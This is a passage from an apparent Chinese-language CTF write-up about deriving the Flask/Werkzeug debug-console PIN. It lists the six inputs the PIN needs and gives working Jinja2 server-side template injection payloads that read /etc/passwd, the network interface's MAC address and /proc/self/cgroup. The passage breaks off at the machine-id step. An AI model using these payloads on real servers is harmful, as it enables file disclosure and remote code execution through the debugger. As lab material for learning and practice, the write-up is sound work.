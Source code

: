 关于PIN码的相关资料请参考：[Flask debug 模式 PIN 码生成机制安全性研究笔记 - HacTF - 博客园 (cnblogs.com)](https://www.cnblogs.com/HacTF/p/8160076.html)

得到PIN码需要六个信息，其中2和3易知

1. flask所登录的用户名
2. modname，一般是flask.app
3. getattr(app, “name”, app.class.name)。一般为Flask
4. flask库下app.py的绝对路径。这个可以由报错信息看出
5. 当前网络的mac地址的十进制数。
6. 机器的id。

**flask用户名**可以通过读取/etc/passwd来知道

```python
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd','r').read() }}{% endif %}{% endfor %}
```

得到用户名为flaskweb：

![image-20240220000750681](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240220000750681.png)

**app.py的绝对路径：**![image-20240220001127832](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240220001127832.png)

**mac地址的十进制数：**

首先要得到网卡 /sys/class/net/eth0/address

```python
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address','r').read() }}{% endif %}{% endfor %}
```

mac地址

4e:5c:78:9a:9a:d7

![image-20240220001347410](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240220001347410.png)

将：去掉
4e5c789a9ad7
在python中进行转化
print(int('4e5c789a9ad7',16))
得到
86159067355863

**docker机器的id:**

> 对于非docker机每一个机器都会有自已唯一的id，linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot_i，有的系统没有这两个文件。
> 对于docker机则读取/proc/self/cgroup，其中第一行的/docker/字符串后面的内容作为机器的id，

```python
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/proc/self/cgroup','r').read() }}{% endif %}{% endfor %}
```
